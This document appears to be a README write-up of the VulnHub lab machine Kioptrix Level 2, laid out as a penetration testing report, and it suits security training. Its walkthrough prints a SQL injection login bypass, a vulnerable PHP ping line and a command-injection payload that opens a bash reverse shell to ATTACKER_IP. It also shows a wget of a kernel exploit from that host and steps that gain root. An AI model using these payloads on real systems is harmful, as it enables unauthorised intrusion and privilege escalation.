

# Kioptrix Level 2 — Penetration Testing Report

[📖 قراءة التقرير بالعربية](README_AR.md) | [English Version](README.md)
[📄 Original Report File (PDF)](./Kioptrix_2_Detailed_Writeup.pdf)

---

## 📋 Overview & Metadata

| Attribute | Details |
| :--- | :--- |
| **Target Machine** | Kioptrix Level 2 (VulnHub) |
| **Target OS** | CentOS Linux (Kernel 2.6.9) |
| **Difficulty** | Easy / Intermediate |
| **Assessment Type** | Web Application Pentest & Linux Kernel Privilege Escalation |
| **Key Vulnerabilities** | SQL Injection Authentication Bypass, Remote Command Injection in Web Utility, Linux Kernel Privilege Escalation (`9542.c` / CVE-2009-2698) |
| **Initial Foothold** | SQLi Login Bypass -> Command Injection Ping Utility -> `apache` shell |
| **Privilege Escalation** | Linux Kernel Exploit (`sock_sendpage` / `ptrace`) -> `root` |

---

## 🎯 Attack Chain



---

## 🔍 Vulnerability Summary

| Vulnerability | Severity | Service / Port | Impact |
| :--- | :---: | :---: | :---: |
| **SQL Injection (Login Bypass)** | Critical | Port 80 (`/index.php`) | Administrative Authentication Bypass |
| **Remote Command Injection** | Critical | Port 80 (`/ping.php`) | Arbitrary Operating System Command Execution |
| **Kernel Privilege Escalation** | High | Linux Kernel 2.6.9 | Local Privilege Escalation to Root |

---

## 🛠️ Step-by-Step Walkthrough

### Phase 1: Web Enumeration & SQL Injection

Nmap reveals port 80 and port 3306. Navigating to `http://<TARGET_IP>/` presents an administrative login form.
Injecting classic SQL authentication bypass in the username and password fields:
```sql
' or 1=1 -- 
```
The application successfully authenticates and redirects to an internal diagnostic utility: `ping.php`.

### Phase 2: Remote Command Injection

The `ping.php` script executes the system `ping` command using unsanitized user input:
```php
system("ping -c 3 " . $_POST['ip']);
```
Appending commands via semicolon:
```bash
127.0.0.1; bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```
Listener on attacker machine receives an interactive reverse shell as user `apache`.

### Phase 3: Kernel Privilege Escalation

Check OS and kernel details:
```bash
uname -a
cat /etc/redhat-release
```
Output: `Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:59:03 EDT 2007 i686` (CentOS release 4.5).

This kernel version is vulnerable to the **sock_sendpage** / **vmsplice / ptrace** privilege escalation (`CVE-2009-2698` / Exploit-DB 9542):

1. Transfer `9542.c` to `/tmp` on the target machine:
   ```bash
   cd /tmp
   wget http://ATTACKER_IP/9542.c
   ```
2. Compile with GCC:
   ```bash
   gcc 9542.c -o exploit
   ```
3. Execute:
   ```bash
   ./exploit
   ```
4. Output:
   ```text
   sh: no job control in this shell
   sh-3.00# whoami
   root
   ```
Instant Root Access achieved!
